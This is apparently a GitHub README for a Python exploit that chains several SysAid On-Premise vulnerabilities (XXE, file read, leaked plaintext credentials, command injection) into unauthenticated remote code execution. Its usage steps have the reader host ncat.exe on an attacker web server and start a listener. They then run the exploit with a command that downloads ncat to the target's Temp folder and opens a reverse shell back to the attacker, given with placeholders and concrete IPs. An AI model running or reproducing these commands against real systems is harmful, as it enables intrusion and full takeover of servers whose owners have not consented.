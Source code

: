 <p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/7/7e/SysAid_Logo.svg/320px-SysAid_Logo.svg.png" width="250px" alt="SysAid Logo">
</p>


<h1 align="center">SysAid Pre-Auth RCE Chain Exploit</h1>

<p align="center">
  <strong>🔥 CVE-2025-2775 → CVE-2025-2778 RCE Chain</strong><br>
  🧑‍💻 Author: <strong>0xgh057r3c0n</strong> | 🔬 Research: <strong>@SinSinology</strong> & <strong>@watchTowrcyber</strong><br>
  <a href="https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE">
    <img src="https://img.shields.io/github/license/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain?style=flat-square" alt="MIT License">
  </a>
</p>

---

## 🚨 Associated CVEs

| CVE ID         | Description                                                       |
|----------------|-------------------------------------------------------------------|
| **CVE-2025-2775** | XXE vulnerability in `/mdm/serverurl` endpoint                  |
| **CVE-2025-2776** | Arbitrary file read via malicious external DTD (XXE technique)  |
| **CVE-2025-2777** | Credentials stored in plaintext in `InitAccount.cmd`            |
| **CVE-2025-2778** | Authenticated command injection via `javaLocation` parameter    |

These are chained together to achieve **unauthenticated remote command execution**.

---

## 🧩 About

This is a Python-based exploit that targets **SysAid On-Premise** running on **Windows**. It chains multiple vulnerabilities to achieve **pre-authenticated blind RCE**.

---

## 🧰 Requirements

- Python 3.6+
- `requests` module
- Attacker host with HTTP server and Netcat (`ncat`)
- SysAid target running on Windows

Install dependencies:

```bash
pip install requests
````

---

## 🔗 Exploit Chain Overview

1. XXE payload via `/mdm/serverurl` → triggers DTD-based file read
2. Leak `InitAccount.cmd` → extract hardcoded credentials
3. Log in with leaked creds
4. Inject command via `javaLocation` param (blind RCE)

---

## 🖥️ Step-by-Step Usage

### 1️⃣ Download and Host `ncat.exe` (Windows Netcat)

* 📥 Download from official source:
  [https://nmap.org/dist/ncat-portable-5.59BETA1.zip](https://nmap.org/dist/ncat-portable-5.59BETA1.zip)

* Extract `ncat.exe`

* Host it using Python HTTP server:

```bash
cd /path/to/ncat/
python3 -m http.server 80
```

Accessible at:

```
http://<ATTACKER_IP>/ncat.exe
```

---

### 2️⃣ Start a Reverse Shell Listener

On your attacker machine:

```bash
ncat -lvnp 4444
```

---

### 3️⃣ Run the Exploit

#### 🔸 Basic RCE (blind)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c whoami
```

> You won’t get output, but command runs silently.

---

#### 🔹 Reverse Shell (Windows)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c "cmd.exe /c curl http://<ATTACKER_IP>/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe <ATTACKER_IP> 4444 -e cmd.exe"
```

**Decoded:**

```cmd
cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe
C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe
```

---

## 📦 Example Workflow

```bash
# Host Netcat binary
python3 -m http.server 80

# Start listener
ncat -lvnp 4444

# Launch exploit
python3 exploit.py -t http://192.168.1.100:8080 -l 192.168.1.20 -c "cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe"
```

---

## 🧪 Tested On

* ✅ SysAid On-Prem (Windows Server)
* ✅ Python 3.8+
* ✅ ncat.exe from Nmap

---

## 👨‍🔬 Credits

* 🔬 Research: [@SinSinology](https://twitter.com/SinSinology) & [@watchTowrcyber](https://twitter.com/watchTowrcyber)
* 💻 Exploit: **0xgh057r3c0n**

---

## 📜 License

This project is licensed under the MIT License. See the full license here:
🔗 [MIT License on GitHub](https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE)

